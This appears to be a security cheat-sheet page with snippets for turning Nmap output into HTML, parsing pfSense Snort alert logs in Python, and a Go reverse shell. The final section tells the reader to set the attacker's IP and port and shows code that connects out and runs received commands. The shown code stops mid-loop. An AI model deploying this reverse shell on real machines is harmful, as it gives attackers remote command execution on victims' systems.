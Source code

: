 ## Nmap XML report to HTML

```sh
nmap -sn -oA result 127.0.0.1
xsltproc result.xml -o result.html
```

## Parse snort CSV logs (pfsense package default format)

```python
import csv
import json
"""
alert timestamp,sig_generator,sig_id,sig_rev,msg,proto,src,srcport,dst,dstport,id,classification,priority,action,disposition 10000K
"""

with open('/var/log/snort/snort_igb2.1063431/alert') as f:
    for row in f.readlines():
         arow = row.split(',')
         alert = {}
         alert['timestamp'] = arow[0]
         alert['sig_generator'] = arow[1]
         alert['sig_id'] = arow[2]
         alert['sig_rev'] = arow[3]
         alert['msg'] = arow[4]
         alert['proto'] = arow[5]
         alert['src'] = arow[6]
         alert['srcport'] = arow[7]
         alert['dst'] = arow[8]
         alert['dstport'] = arow[9]
         alert['id'] = arow[10]
         alert['classification'] = arow[11]
         alert['priority'] = arow[12]
         alert['action'] = arow[13]
         alert['disposition'] = arow[14].replace('\n', '')
         print(json.dumps(alert))
```

## Golang Reverse Shell

Simple golang reverse shell. 
Setup attacker's IP and TCP port to `net.Dial("tcp", "<ip>:<port>")`.

```go
package main

import (
   "fmt"
   "bufio"
   "net"
   "os/exec"
   "strings"
)

func main() {
   conn, _ := net.Dial("tcp", "127.0.0.1:4443")
   for {

      msg, _ := bufio.NewReader(conn).ReadString('\n')

      out, err := exec.Command(strings.TrimSuffix(msg, "\n")).Output()

      if err != nil {
```